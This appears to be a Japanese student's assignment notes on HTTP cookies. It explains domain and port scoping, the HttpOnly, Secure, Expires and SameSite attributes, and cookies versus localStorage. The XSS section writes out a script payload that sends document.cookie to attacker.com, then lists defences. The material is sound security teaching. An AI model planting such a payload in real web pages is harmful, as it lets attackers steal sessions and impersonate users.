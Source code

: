 # 課題 1

## クッキーとは

- クッキーは、ウェブサイトがユーザーのブラウザに一時的に保存する小さなテキストファイルのことを指す
- クッキーは、ウェブサイトがユーザーを識別したり、ユーザーの設定や前回の訪問情報を記憶したりするために使用される
- ユーザーがウェブサイトを訪れると、ウェブサーバーは HTTP レスポンスの一部として「Set-Cookie」ヘッダを送信する。このヘッダはクッキーの名前と値、有効期限、パス、ドメインなどの属性を含む。
- ブラウザはこの「Set-Cookie」ヘッダを受け取ると、その情報をクッキーとして保存する
- ユーザーがそのウェブサイトを再訪問するとき、ブラウザは保存したクッキーの情報を HTTP リクエストヘッダに含めてサーバーに送信する。
- これにより、サーバーはユーザーを識別したり、前回の訪問情報に基づいたカスタマイズされたコンテンツを提供したりすることができる

参考：https://developer.mozilla.org/ja/docs/Web/HTTP/Cookies

## www.hoge.comで発行されたクッキーは、www.fuga.comにも送信されるか？

- www.hoge.comで発行されたクッキーはwww.fuga.comには送信されない。これは、クッキーが「ドメイン固有」であるため。
- クッキーは、それが設定された特定のドメイン（この場合はwww.hoge.com）に対してのみ送信される
- ユーザーのプライバシーとセキュリティを保護するための重要な仕組み
- 異なるドメイン間でクッキーが共有されると、ユーザーの行動を追跡したり、個人情報を不適切に収集したりするリスクがある

## hoge.com:8080 のクッキーは hoge.com:9090 にも送信されるか？

- クッキーはドメインとパスに基づいて送信されますが、ポート番号は考慮されないため送信される

## www.hoge.comで発行されたクッキーは、www.api.hoge.comにも送信されるか？

- ドメイン属性の設定により、同一のサブドメイン（例：sub1.hoge.com と sub2.hoge.com）間で共有することが可能

## クッキーに Domain="hoge.com"を指定した場合、api.hoge.com にもクッキーは送信されるか？

- クッキーに Domain=hoge.com を指定した場合、そのクッキーは api.hoge.com にも送信される
- クッキーの Domain 属性を設定すると、そのクッキーは指定したドメインおよびそのサブドメインに対して送信される

## JavaScript からクッキーの値が取得されることを防ぐことは可能？

- ブラウザで実行される JavaScript からクッキーの値を取得されることを防ぐことは可能
- クッキーを設定する際に HttpOnly 属性を使用する
- HttpOnly 属性が設定されたクッキーは、JavaScript の Document.cookieAPI を通じてアクセスすることができない
- クロスサイトスクリプティング（XSS）攻撃によるクッキーの盗難を防ぐことが可能

## HTTPS（暗号化）通信の時だけクッキーを送信することは可能？

- HTTPS（暗号化）通信の時だけクッキーを送信することは可能
- これを実現するためには、クッキーを設定する際に Secure 属性を使用する
- Secure 属性が設定されたクッキーは、HTTPS を通じてのみ送信される
- HTTP を使用する通信では、そのクッキーは送信されない
- これによりネットワーク上でのクッキーの盗聴を防ぐことができる

## クッキーに Expires を設定した場合

- クッキーに Expires 属性を設定すると、そのクッキーの有効期限が設定される
- Expires 属性には具体的な日時（通常は GMT で表される）が設定され、その日時を過ぎるとクッキーは自動的に削除される
- Expires 属性が設定されていないクッキーは、セッションクッキーと呼ばれ、ブラウザが閉じられると自動的に削除される
- Expires 属性を設定することで、ブラウザが閉じられた後もクッキーを保持することができる
- クッキーの有効期限を長期間に設定すると、セキュリティ上のリスクを伴う可能性がある
- 例えば、攻撃者にクッキーを盗まれた場合、有効期限が長いと攻撃者がそのクッキーを使ってユーザーを偽装する時間が長くなる
- そのため、クッキーの有効期限は必要最小限に保つことが推奨される

## SameSite 属性とは

- SameSite 属性は、クッキーが送信されるコンテキストを制限するための属性で、クロスサイトリクエストフォージェリ（CSRF）攻撃を防ぐために使用される
- SameSite 属性には、Strict、Lax、None の 3 つの値を設定することができる
- SameSite=Strict
  - この設定を使用すると、クッキーは同じサイト（つまり、同じドメイン）のリクエストでしか送信されない
  - ユーザーが直接サイトを訪れた場合にのみクッキーが送信されることを意味する
- SameSite=Lax
  - この設定を使用すると、クッキーは同じサイトのリクエスト、または他のサイトからの「安全な」ナビゲーション（例えば、リンクをクリックしてサイトに移動する）で送信される
  - Strict よりも少し緩い制限で、ユーザーが他のサイトからリンクをクリックしてサイトに移動した場合でもクッキーが送信されることを意味する
- SameSite=None
  - この設定を使用すると、クッキーはすべてのコンテキストで送信される。つまり、他のサイトからのリクエストでもクッキーが送信される。
  - ただし、SameSite=None を使用する場合、Secure 属性も必ず設定する必要がある
  - クッキーが安全な接続（HTTPS）を通じてのみ送信されることを保証する

## クッキーに格納しない方が良い情報の例

クッキーはブラウザに保存され、攻撃者に盗まれる可能性があるため、下記の情報は格納しない方が良い

- パスワード
- 個人を特定できる情報
- センシティブな情報

## クッキーを使うべきタイミングと、ローカルストレージを使うべきタイミング

### クッキーを使うべきタイミング

- セッション管理：クッキーは HTTP リクエストと一緒に自動的に送信されるため、ユーザーの認証情報などのセッションデータを保存するのに適している

### ローカルストレージを使うべきタイミング

- クライアントサイドの情報：ローカルストレージは、サーバーとの通信が不要な情報、例えば一時的なユーザーの入力や、重要でない情報を保存するのに適している。
- ローカルストレージは JavaScript から直接アクセスできるため、XSS 攻撃のリスクがある
- センシティブな情報（例えば、認証情報）をローカルストレージに保存するべきではない

## Stack Overflow のような WEB 掲示板サービスを開発しているとしましょう。XSS（クロスサイトスクリプティング）により、他ユーザのクッキー情報が抜き出される仕組みを説明してください。どのような対策が考えられますか？

### 他ユーザのクッキー情報が抜き出される仕組み

- クロスサイトスクリプティング（XSS）は、攻撃者がウェブサイトに悪意のあるスクリプトを注入し、そのスクリプトが他のユーザーのブラウザで実行されるタイプの攻撃
- この攻撃により、攻撃者は他のユーザーのセッションクッキーを盗むことができ、その結果、そのユーザーとして行動することが可能になる
- 例えば、攻撃者が掲示板に <script>document.location='https://attacker.com/steal.php?cookie='+document.cookie;</script> のようなメッセージを投稿したとする
- 他のユーザーがそのページを表示すると、ブラウザはこのスクリプトを実行し、ユーザーのクッキーを攻撃者のサーバーに送信する
- これにより、攻撃者はユーザーのクッキーを取得し、そのユーザーとして行動することができる

### XSS 攻撃を防ぐための対策

- 入力のサニタイズ
  - ユーザーからの入力をそのまま表示するのではなく、特殊文字（例えば <、 >、"、'）を HTML エンティティにエスケープすることで、スクリプトの注入を防ぐ
- Content Security Policy (CSP)
  - CSP を使用すると、ウェブページがどのドメインからスクリプトを読み込むことができるかを制限することができる
  - これにより、攻撃者が意図しないスクリプトを実行するのを防ぐことができる
- HttpOnly クッキー
  - HttpOnly フラグが設定されたクッキーは、JavaScript からアクセスできないため、XSS 攻撃によるクッキーの盗難を防ぐことができる

## 課題 2（クイズ）

一部の <cookie-name> は特殊な意味を持ちますが、どんなものがあるか教えてください
参考：https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Set-Cookie
